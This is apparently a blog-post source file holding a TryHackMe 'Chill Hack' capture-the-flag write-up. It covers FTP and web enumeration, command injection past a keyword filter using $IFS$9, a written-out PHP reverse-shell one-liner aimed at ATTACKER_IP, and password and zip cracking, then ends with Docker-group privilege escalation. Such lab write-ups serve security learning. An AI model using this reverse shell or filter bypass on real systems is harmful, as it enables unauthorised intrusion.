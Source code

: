 ```yaml
---
layout: post
title: THM Chill Hack writeup
excerpt_separator: <!--more-->
---
```

<img src="/img/chillhack/0.head.png">
<!--more-->
<a href="https://tryhackme.com/room/chillhack" target="_blank" > Click here to access this box on TryHackMe.com</a>
<hr>
<h1>ENUMERATION:</h1>
<hr>
<p>Let's start by scanning for open ports with NMAP.</p>
<p>In the output below we can see that FTP (port 21) and SSH (port 22) are open. There’s also an apache  web server running on port 80</p>
<p>First let see what's in the note.txt file on the FTP service since anonymous login is allowed</p>
<img src="/img/chillhack/1.nmap.png">

<p>login with “anonymous:anonymous” </p>
<img src="/img/chillhack/2.ftp-login.png">

<p>Download (GET) the note.txt file.</p>
<img src="/img/chillhack/3.ftp-note-dl.png">

<p>Read the contents of the file.</p>
<p> This isn’t very helpful right now, but will take note of this. </p>
<p> Let’s enumerate the webserver in our web browser</p>
<img src="/img/chillhack/4.note-text.png">

<p>We have a web page that appears to be dedicated to  pseudo soccer teams.</p>
<p>I spent some time enumerating all the input fields and links. All of them appear to be “dummy” place holders. Let’s try and enumerate the sub directories. </p>  
<img src="/img/chillhack/5.home-webpage.png">

<p>Let’s run dirbuster first.</p>
<img src="/img/chillhack/6.dirbuster.png">

<p>From the output below we see there’s a directory named “secret”. Let’s navigate to the page</p>
<img src="/img/chillhack/7.dirbuster2.png">

<p>When we navigate to that page we’re presented with an input box that says command. Let’s try and issue some commands. Since we know from NMAP this is probably a Liux box let’s try some bash commands</p>
<img src="/img/chillhack/8.secret-page.png">

<p>If we type “id" command we get a response in our web browser. Let’s try and get a use net cat to get a basic reverse shell.</p>
<img src="/img/chillhack/9.id-input.png">

<p>First let’s set up a listener on our attacking machine to catch the shell.</p>
<img src="/img/chillhack/10.nc-listner.png">

<p>Okay, I didn't think it would be that easy. This must be what the note.txt in the FTP server was speaking to. They're filtering out some keywords - “nc” appears to be one on the list</p>
<img src="/img/chillhack/11.nc-fail.png">

<p>I tried using Burp Suite to send the POST request to try and bypass any client side scripting that may be filtering input data. That didn’t work</p>
<img src="/img/chillhack/12.burp.png">

<p>After fuzzing the input data for a while, I found a way to defeat the input filtering by using “$IFS$9” (this will be interpreted as a white space on the server) for white spaces. I’m assuming there’s an input validation that has a hard coded list of black listed keywords. E.g.  'nc', 'python', 'bash','php','perl', etc… If we take the command “nc -e” and replace the withe space with “nc$IFS$9-e” we can get the command to execute without triggering the input validation filter.  </p>
<img src="/img/chillhack/13.input-trick.png">

<p>Altho this trick worked I couldn’t get a shell to “pop” using any net cat commands. I used a PHP one-liner and “popped” a reverse shell: php$IFS$9-r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'  </p>
<img src="/img/chillhack/14.php-1liner.png">

<p>And we have a non interactive shell running as www-data. Let’s upgrade this to pseudo interactive.</p>
<img src="/img/chillhack/15.first-shell.png">

<p>Using this python 3 command we can get a pseudo interactive shell and start enumerating.</p>
<img src="/img/chillhack/16.psudo-i-shell.png">

<p>Looking through the file system there's an interesting  directory named “files” that we have read access to. There’s also a folder named images that I downloaded on to my machine.</p>
<img src="/img/chillhack/17.files.png">

<p>When we cat the index.php file we find a mysql user name and password. Let’s note these and see if we can connect to the mysql server. </p>
<img src="/img/chillhack/18.mysql-creds.png/">

<p>We’re connected to the SQL database. Let’s begin enumerating.</p>
<img src="/img/chillhack/19.mysql-login.png">

<p>The webportal table looks interesting. Let’s see what  tables it has.. </p>
<img src="/img/chillhack/20.mysql-tables.png">

<p>Let’s see if we can get any user creds from this table.</p>
<img src="/img/chillhack/21.mysql-table.png">

<p>Great, we have usernames and passwords. These passwords are hashed with  MD5. Let see if Crakstation.net can crack these before we try hashcat</p>
<img src="/img/chillhack/22.user-password-hashed.png">

<p>They were very weak passwords and crackstation.net was able to crack both. Let’s note the user names and password and keep enumerating. </p>
<img src="/img/chillhack/23.crack-station.png">

<p>Let’s check the images we download from the images folder on the server. First let’s try the .jpg and see if these any hidden data in it.</p>
<img src="/img/chillhack/">

<p>Using steghide I was able to extract a file named backup.zip. Let’s unzip and see what’s inside.</p>
<img src="/img/chillhack/24.backup-.zip-file.png">

<p>It’s password protected. I tried the three passwords I captured earlier but these didn’t work. let ‘s try and bruteforce the password.</p>
<img src="/img/chillhack/25.unzip-pass-pro.png">

<p>using fcrackzip and the rockyou password list it quickly found the password.</p>
<img src="/img/chillhack/26.zip_password-cracked.png">

<p>using fcrackzip and the rockyou password list it quickly found the password.</p>
<img src="/img/chillhack/26.zip_password-cracked.png">

<p>Let’s see what’s inside. When we unzip the file we find another file named source_code.php. There’s credentials hardcoded in this php, but it’s base64 encoded.</p>
<img src="/img/chillhack/27.creds-again.png">

<p>Let’s decode the password</p>
<img src="/img/chillhack/28.base64-d.png">


<p>Let’s see if we can use these creds to ssh in so we have a more stable shell</p>
<img src="/img/chillhack/">

<p>Success. Now let’s enumerate for priv esc.</p>
<img src="/img/chillhack/29.ssh-shell.png">

<p>We’re in the Docker group. This looks like a potential priv esc path.</p>
<img src="/img/chillhack/30.docker-group.png">

<p>A quick check on GTFO bins.</p>
<img src="/img/chillhack/31.gtfo-bins.png">
<p>And we are root. Let’s cat our flags.</p>
<img src="/img/chillhack/32.we-are-root.png">
<p>User flag.</p>
<img src="/img/chillhack/33.user-flag.png">
<p>And the root flag. This was a really fun box!!</p>
<img src="/img/chillhack/34.root-flag.png">




